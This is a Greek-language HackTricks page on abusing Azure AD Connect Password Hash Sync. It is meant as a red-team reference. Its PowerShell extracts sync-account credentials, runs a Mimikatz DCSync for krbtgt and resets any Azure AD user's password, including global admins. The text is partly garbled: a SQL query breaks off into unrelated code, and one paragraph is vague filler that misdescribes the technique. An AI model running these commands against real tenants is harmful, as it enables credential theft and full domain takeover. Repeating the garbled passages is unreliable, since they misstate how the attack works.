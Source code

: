 # Az - PHS - Συγχρονισμός κατακερματισμένων κωδικών πρόσβασης

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** Ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Βασικές πληροφορίες

[Από τα έγγραφα:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) Ο **συγχρονισμός κατακερματισμένων κωδικών πρόσβασης (PHS)** είναι ένας από τους τρόπους σύνδεσης που χρησιμοποιούνται για την επίτευξη υβριδικής ταυτότητας. Το **Azure AD Connect** συγχρονίζει ένα κατακερματισμένο κατακερματισμένο κωδικό πρόσβασης ενός χρήστη από μια τοπική περίπτωση του Active Directory σε μια περίπτωση του Azure AD που βρίσκεται στον νέφος.

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Είναι η **πιο κοινή μέθοδος** που χρησιμοποιείται από τις εταιρείες για τον συγχρονισμό ενός τοπικού AD με το Azure AD.

Όλοι οι **χρήστες** και ένας **κατακερματισμένος κατακερματισμένος κωδικός πρόσβασης** συγχρονίζονται από τον τοπικό στον Azure AD. Ωστόσο, οι **καθαροί κείμενοι κωδικοί πρόσβασης** ή οι **αρχικοί κατακερματισμένοι κωδικοί** δεν αποστέλλονται στο Azure AD.\
Επιπλέον, οι **ενσωματωμένες** ομάδες ασφαλείας (όπως οι διαχειριστές τομέα...) **δεν συγχρονίζονται** με το Azure AD.

Ο **συγχρονισμός των κατακερματισμένων κωδικών πρόσβασης** πραγματοποιείται κάθε **2 λεπτά**. Ωστόσο, από προεπιλογή, η **λήξη κωδικού πρόσβασης** και η **λήξη λογαριασμού** δεν συγχρονίζονται στο Azure AD. Έτσι, ένας χρήστης του οποίου ο **κωδικός πρόσβασης τοπικού AD έχει λήξει** (χωρίς να έχει αλλάξει) μπορεί να συνεχίσει να **έχει πρόσβαση σε πόρους Azure** χρησιμοποιώντας τον παλιό κωδικό πρόσβασης.

Όταν ένας χρήστης του τοπικού AD θέλει να έχει πρόσβαση σε έναν πόρο Azure, η **πιστοποίηση πραγματοποιείται στο Azure AD**.

Το **PHS** απαιτείται για λειτουργίες όπως η **Προστασία Ταυτότητας** και οι Υπηρεσίες Τομέα AAD.

## Περιστροφή

Όταν ο PHS είναι διαμορφωμένος, ορισμένοι **προνομιούχοι λογαριασμοί** δημιουργούνται αυτόματα:

* Ο λογαριασμός **`MSOL_<installationID>`** δημιουργείται αυτόματα στο τοπικό AD. Αυτός ο λογαριασμός αποκτά ρόλο **Λογαριασμοί Συγχρονισμού Καταλόγου** (δείτε την [τεκμηρίωση](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) που σημαίνει ότι έχει δικαιώματα **αναπαραγωγής (DCSync) στο τοπικό AD**.
* Ένας λογαριασμός **`Sync_<όνομα του διακομιστή ADConnect του τοπικού AD>_installationID`** δημιουργείται στο Azure AD. Αυτός ο λογαριασμός μπορεί να **επαναφέρει τον κωδικό πρόσβασης οποιουδήποτε χρήστη** (συγχρονισμένου ή μόνο στο νέφος) στο Azure AD.

Οι κωδικοί πρόσβασης των δύο προηγούμενων προνομιούχων λογαριασμών **αποθηκεύονται σε έναν SQL server** στον διακομιστή όπου είναι εγκατεστημένο το **Azure AD Connect**. Οι διαχειριστές μπορούν να εξάγουν τους κωδικούς πρόσβασης αυτών των προνομιούχων χρηστών σε καθαρό κείμενο.\
Η βάση δεδομένων βρίσκεται στο `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Είναι δυνατή η εξαγωγή της διαμόρφωσης από έναν από τους πίνακες, ένας από τους οποίους είναι κρυπτογραφημένος:

`SELECT private_configuration_xml,
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Κατάχρηση των MSOL\_\*

Η κατάχρηση των MSOL\_\* αφορά την εκμετάλλευση των ευπαθειών που υπάρχουν στα συστήματα MSOL\_\* για να επιτευχθεί πρόσβαση ή εκτέλεση ανεπιθύμητων ενεργειών. Αυτό μπορεί να γίνει μέσω διάφορων τεχνικών, όπως:

- Εκμετάλλευση ευπαθειών στο Azure AD Connect για να αποκτηθεί πρόσβαση σε λογαριασμούς χρηστών ή να εκτελεστούν ανεπιθύμητες ενέργειες.
- Χρήση του MSOL\_\* για να προσπεράσει τις ασφαλείς διαδικασίες ελέγχου και να αποκτήσει πρόσβαση σε ευαίσθητες πληροφορίες.
- Εκμετάλλευση των ευπαθειών του MSOL\_\* για να προκαλέσει διαρροή πληροφοριών ή να προκαλέσει ζημιά στο σύστημα.

Είναι σημαντικό να γίνεται συχνή ενημέρωση και εφαρμογή των απαραίτητων μέτρων ασφαλείας για να αποτραπεί η κατάχρηση των MSOL\_\*.
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Μπορείτε επίσης να χρησιμοποιήσετε το [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) για να αποκτήσετε αυτές τις πιστοποιήσεις.
{% endhint %}

### Κατάχρηση του Sync\_\*

Με την κατάχρηση του λογαριασμού **`Sync_*`** είναι δυνατόν να **επαναφέρετε τον κωδικό πρόσβασης** οποιουδήποτε χρήστη (συμπεριλαμβανομένων των Γενικών Διαχειριστών)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Είναι επίσης δυνατό να τροποποιήσετε τους κωδικούς πρόσβασης μόνο για χρήστες του **cloud** (ακόμα κι αν αυτό είναι απροσδόκητο)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Είναι επίσης δυνατό να ανακτηθεί ο κωδικός πρόσβασης αυτού του χρήστη.

{% hint style="danger" %}
Μια άλλη επιλογή θα ήταν να **αναθέσετε προνομιούχες άδειες σε έναν υπηρεσιακό πρωταγωνιστή**, στον οποίο ο **χρήστης Sync έχει δικαιώματα**, και στη συνέχεια να **αποκτήσετε πρόσβαση σε αυτόν τον υπηρεσιακό πρωταγωνιστή** ως τρόπος προνομιούχου ανέλιξης.
{% endhint %}

### Απρόσκοπτη SSO

Είναι δυνατή η χρήση της Απρόσκοπτης SSO με το PHS, το οποίο είναι ευάλωτο σε άλλες καταχρήσεις. Ελέγξτε το εδώ:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Αναφορές

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Συμμετάσχετε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα κόλπα σας για το hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
